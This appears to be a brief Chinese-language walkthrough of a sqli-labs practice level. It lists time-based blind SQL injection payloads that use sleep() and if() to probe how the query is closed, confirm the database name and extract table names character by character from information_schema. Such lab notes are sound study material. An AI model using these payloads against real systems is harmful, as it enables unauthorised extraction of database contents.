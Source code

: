 

判断闭合方式

```
?id=1' and sleep(5)--+
```

![image-20220115115431625](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115115431625.png)



```
?id=1' and if((select database())="security",sleep(5),null) 
```



```
id=2' and if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e',sleep(5),null)--+
```



...继续正常步骤





# less10
